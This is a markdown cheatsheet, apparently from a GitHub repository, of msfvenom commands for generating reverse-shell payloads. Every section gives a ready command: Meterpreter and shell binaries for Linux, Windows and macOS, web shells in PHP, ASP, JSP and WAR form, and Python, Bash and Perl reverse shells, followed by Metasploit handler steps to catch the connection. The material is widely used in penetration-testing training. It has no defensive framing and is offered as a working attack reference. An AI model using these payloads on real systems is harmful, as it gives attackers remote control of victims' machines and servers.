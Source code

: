 # msfvenom cheatsheet

**Basic Format Example**
```
msfvenom -p {PAYLOAD} LHOST={LHOST} LPORT={LPORT} -f {FORMAT} > file
```

**List all available paylods**
```
msfvenom --list payloads
```

## Binary Payloads

**Linux Meterpreter Reverse Shell**
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f elf > shell.elf
```

**Windows Meterpreter Reverse TCP Shell**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f exe > shell.exe
```

**Windows Reverse TCP Shell**
```
msfvenom -p windows/shell/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f exe > shell.exe
```

**Mac Reverse Shell**
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f macho > shell.macho
```

## Web Payloads

**PHP Meterpreter Reverse TCP**
```
msfvenom -p php/meterpreter_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f raw > shell.php
```

**ASP Meterpreter Reverse TCP**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={LHOST} LPORT={LPORT} -f asp > shell.asp
```

**JSP Meterpreter Reverse TCP**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f raw > shell.jsp
```

**WAR Reverse TCP**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -f war > shell.war
```

## Scripting Payloads

**Python Reverse TCP**
```
msfvenom -p cmd/unix/reverse_python LHOST={LHOST} LPORT={LPORT} -f raw > shell.py
```

**Bash Unix Reverse TCP**
```
msfvenom -p cmd/unix/reverse_bash LHOST={LHOST} LPORT={LPORT} -f raw > shell.sh
```

**Perl Reverse Reverse TCP**
```
msfvenom -p cmd/unix/reverse_perl LHOST={LHOST} LPORT={LPORT} -f raw > shell.pl
```

## Receiving the back connect

Before executing your newly created shell, make sure to run the handler so you are listening for the incoming connection.

`use exploit/multi/handler`

`set payload {PAYLOAD}`

`set LHOST {LHOST}`

`set LPORT {LPORT}`

`run`
